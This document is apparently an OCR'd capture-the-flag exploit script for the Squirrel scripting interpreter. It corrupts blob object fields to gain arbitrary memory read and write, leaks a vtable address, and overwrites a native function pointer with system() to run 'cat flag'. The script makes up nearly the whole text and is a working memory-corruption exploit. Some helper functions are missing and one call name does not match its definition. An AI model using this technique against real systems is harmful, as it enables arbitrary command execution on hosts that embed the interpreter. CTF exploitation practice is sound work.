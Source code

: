 ```c
// vtable of blob objects, located in libsqstdlib.so
local vtable = null

// set up arbitrary read and write
function get_arb_rw_pwn() {
    local b = blob(0x30)
    mem = blob(0x30)

    // set b._allocated to 0x5000002 -> large number
    // set b._ptr to 0xb8 -> offset to mem._size
    stack_oob_write()

    // write mem._size
    b.writen(0x7fffffffffffffff, 'l')
    // write mem._allocated
    b.writen(0x7fffffffffffffff, 'l')
    // write mem._ptr
    b.writen(0, 'l')
    // write mem._buf
    b.writen(0x1000, 'l')

    // read mem.vtable
    b.seek(-0x28, 'c')
    vtable = b.readn('l')
    printf("blob vtable: 0x%x\n", vtable)

    printf("mem len: 0x%x\n", mem.len())
}

function write_ptr(addr, value) {
    mem[addr-0x1000+0] = value & 0xff
    mem[addr-0x1000+1] = (value & 0xff00) >> 8
    mem[addr-0x1000+2] = (value & 0xff0000) >> 16
    mem[addr-0x1000+3] = (value & 0xff000000) >> 24
    mem[addr-0x1000+4] = (value & 0xff00000000) >> 32
    mem[addr-0x1000+5] = (value & 0xff0000000000) >> 40
    mem[addr-0x1000+6] = (value & 0xff000000000000) >> 48
    mem[addr-0x1000+7] = (value & 0xff00000000000000) >> 56
}

// heap spray
local spray = []
for (local i = 0; i < 0x80; i++)
    spray.append(blob(0x100))

// get arb rw primitive
get_arb_rw(1000)

// _system_system from sqstdsystem.cpp
local system = vtable - 0x212a90 + 0xef90
printf("system: 0x%x\n", system)

// get nativeclosure object
print(escape + "\n")
local func = split(escape.tostring(), ":")[1].slice(5, -1).tointeger(16)
printf("func: 0x%x\n", func)

// overwrite function pointer of nativeclosure
write_ptr(func + 0x68, system)

// escape is now system, get flag
escape("cat flag")
```